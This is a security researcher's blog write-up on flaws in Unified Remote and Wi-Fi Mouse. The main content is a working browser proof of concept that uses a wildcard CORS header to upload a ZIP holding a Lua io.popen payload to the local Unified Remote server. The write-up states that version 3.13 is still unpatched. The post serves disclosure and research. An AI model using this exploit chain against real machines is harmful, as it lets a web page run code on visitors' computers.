





# <u>Some Background</u>
Back in 2021, shortly before completing my OSCP studies, I decided to afford some time to hunting for my first 'CVE'. Whether spurred on by morbid curiosity for the mobile application landscape or simply a desire to play tee-ball with a notoriously poorly regulated ecosystem escapes me - but it certainly yielded some interesting results.

In the coming two weeks I would produce six separate scripts all inspired by numerous 'Mobile -> Desktop' applications. All but one of which served the purpose of remote controlling a server application enabled computer on the same local network. A noteworthy example was a rewrite of a now notorious and numerously forked exploit for [RemoteMouse](https://www.exploit-db.com/exploits/46697) which unnecessarily utilized `UDP` despite `TCP` functioning identically, creating unreliable exploitation.

`target = socket(AF_INET, SOCK_DGRAM)`


While many of these scripts were essentially a form of traffic replay by my less than stellar python code, I was excited to see observable results and I did come to find that there were vulnerabilities amidst the python syntax errors.

## [Wi-Fi Mouse](https://play.google.com/store/apps/details?id=com.necta.wifimousefree&hl=en&gl=US) 
An interesting and yet unremarkable app with 10M+ downloads on the Google Play Store. While it enabled a desktop user to set a 'pin/password' value. It would not enforce any of these configured authentication mechanisms. It relied solely on the mobile app client to ensure a user password prompt was fulfilled. 

An unfortunate side effect of this handling meant that you could, well - ignore the authentication. My python scripts had no GUI or way of interpreting server responses and so it occurred to me that one could trivially bypass it's sole means of limiting access to a server enabled desktop.

## [Unified Remote](https://play.google.com/store/apps/details?id=com.Relmtech.Remote&hl=en_US)
A seemingly more popular name amongst these style of application that I had become familiar with. No immediate security flaw presented itself to me at the time of my sleep deprived 'research' - and I do use that word quite loosely considering my unrefined and inexperienced process. 

At the time I had completely neglected the fact that the Unified Remote desktop server did not have any form of access control that prevented one from simply - changing the settings!? A simple `POST` request was all that was necessary to disable Web and TCP based access protections. This was kindly contributed by [h00die](https://github.com/h00die) at the time of them creating and committing the Metasploit modules.

## CVE Assignment Woes
In my limited experience trying to report security issues affecting software solutions - small app developers don't seem to care unless it affects their Adware's functionality. Also, while I understand that the CVE assignment is a seemingly complex processs, I have seen MITRE CVE assignment turnarounds of three days for DOM & Reflected Cross-Site Scripting issues and in excess of an entire year for Remote Code Execution issues. 

With all the abstraction in the reporting process and developers responding to support contact emails with, and I am paraphrasing, "This is a non-issue, enable the password security feature". It doesn't feel like anyone outside of CNAs get the time of day. Though I do understand the sheer volume of requests MITRE must work through is insane.

So, defeated and with weeks passing I made the decision to leave my work in the hands of the [Exploit Database](https://www.exploit-db.com/) and GitHub, then soon forgot about it and focused on my studies.

Lo and behold, a year and a half later I was CC'd into the aforementioned GitHub commits for Metasploit Framework. In under 48 hours both pieces of software had a CVE reserved (CVE-2022-3218 and 
CVE-2022-3229 respectively) and the ruby modules were scheduled for main branch commits. So thanks to Rapid 7 for being a CNA I suppose.

<br>

# <u>Any Origin's A Goal</u>

I recently applied some renewed vigor for application testing to re-reviewing the apps I had previously written scripts for. Specifically I went about trying to identify different avenues to achieve remote code execution and so I started from scratch.

So with Unified Remote, Burp, and Ghidra installed I began my hunt. I immediately turned my attention to examining the client side code presented by the webserver.

While many Lodash, JQuery, and other bootstrap code was present a notable standout was the default JavaScript in use.

`http://localhost:9510/default.js`

I noticed a somewhat unusual reference to a method of dragging and dropping a file for upload. Based on the URI alone it appeared to indicate there was a drag and drop feature to add a new 'Remote' option to the Unified Remote Desktop server.

```javascript
        "file-drag-drop": function(f) {
            var b = f.original;
            var a = model.view.dragdrop;
            a.dragging = false;
            a.uploading = true;
            update();
            var d = b.dataTransfer || {};
            var c = d.files || [];
            _.forEach(c, function(h, g) {
                var e = new FileReader();
                $(e).on("loadend", function(k, j) {
                    var i = this.result;
                    $.ajax({
                        url: "/system/remote/add?filename=" + h.name,
                        type: "POST",
                        contentType: "application/octet-stream",
                        data: i,
                        dataType: "json",
                        processData: false
                    }).done(function(l) {
                        a.uploading = false;
                        a.result = l;
                        update();
                        $.get("/system/reload")
```

Some form of file upload, excellent! Now to inspect what a typical remote package looks like. Fortunately some example Remotes are supplied for analysis.



Two files of interest stand out immediately, the XML & the LUA file. Already two potential abuse paths. Either some form of request forgery or file disclosure through XML External Entity or more interestingly abusing the LUA file to achieve potential Code Execution.

First to establish what a test file upload request looks like. Attempting to drag a simple folder and txt file failed however, I needed an idea of what format to use. So, I dug back into the program with Ghidra for any indication of file processing. After some looking an obvious solution presented itself.

There were numerous references to `ZIP` file handling and even exception and error handling functions defined for it.





Testing confirmed that, yes, the server accepted a ZIP file upload for adding a remote package folder. I zipped up one of the examples and made minor edits to values like its name and submitted it via drag and drop.

I was then presented with a very promising set of response headers. Of all the potential response headers to receive I was not expecting a wildcarded `Access-Control-Allow-Origin`.



This effectively meant that so long as I conformed to standard CORS pre-flight content-type options and no specialized headers were required, I could potentially request this through client-side JavaScript from any web origin the user visits.

After trying several times to produce results for XML External Entity abuse with nothing usable, I decided to approach the more direct option, LUA. A simple Google search confirmed the programming language can call an OS system command. Additionally, LUA has a rather unique way of handling multiline strings with two square brackets. This also helps avoid the need for escaping characters.


```lua
io.popen([[calc.exe]])
```

<br>

# <u>Beware of the Blob</u>

There was one obvious hurdle to still overcome, the zip file upload was handled as an `application/octet-stream` content-type and without more permissive CORS headers my exploit attempts may be limited or not work.

I continued regardless and produced myself a simple XHR JavaScript containing HTML file.

```html
<html>
<body>
<p>Hi There!</p>
<script>

  let base64zip = "<base64zip>";
  let binary = atob(base64zip);

  let xhr = new XMLHttpRequest();
  xhr.open("POST","http://localhost:9510/system/remote/add?filename=PoC.zip",false);
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send(binary);
</script>
</body>
</html>
```

Upon attempting to open the HTML page the request was made however it returned a ZIP file processing error. So clearly an issue with the encoding and Content-Type. However, in order to satisfy a CORS pre-flight free exploit, I would need to conform to one of the following content-types:  `text/plain`, `application/x-www-form-urlencoded`, and `multipart/form-data`.



This was frankly the hardest part, finding a way to send a full zip binary over a post method that breaks or treat specific characters uniquely to others without the correct encoding applied. Fortunately, an interesting interface presents opportunity, a Blob array buffer. An immutable raw binary data stream that could hopefully preserve the encoding during exploit payload transmission.

```javascript
  let array = [];
  for (let i = 0; i < binary.length; i++) {
    array.push(binary.charCodeAt(i));
  }

  let blob = new Blob([new Uint8Array(array)], { type: "application/octet-stream" });
```

Plugging this into the previous exploit payload resulted in the below Proof of Concept.

```html
<html>
<body>
<p>Hi There!</p>
<script>

  let base64zip = "<base64zip>";
  let binary = atob(base64zip);
  let array = [];
  for (let i = 0; i < binary.length; i++) {
    array.push(binary.charCodeAt(i));
  }

  let blob = new Blob([new Uint8Array(array)], { type: "application/octet-stream" });
  let xhr = new XMLHttpRequest();
  xhr.open("POST","http://localhost:9510/system/remote/add?filename=PoC.zip",false);
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send(blob);
</script>
</body>
</html>
```

Finally, I had achieved a potential script to prove for Web Triggerable Remote Code Execution. To prove for it I used a static HTML response Workflow from Pipedream to test and hopefully prove for its exploitability from any internet origin.


A successful day wasted at my keyboard. Thanks for reading, I have attached a link to a full Python script proof of concept I made to automate updating and serving the payload page. The exploit still affects the most current version of Unified Remote too as of writing (3.13).

[Unfied Remote - Web Triggerable Remote Code Execution](https://github.com/H4rk3nz0/PenTesting/blob/main/Exploits/unified%20remote/unified-remote-web-triggerable-rce.py)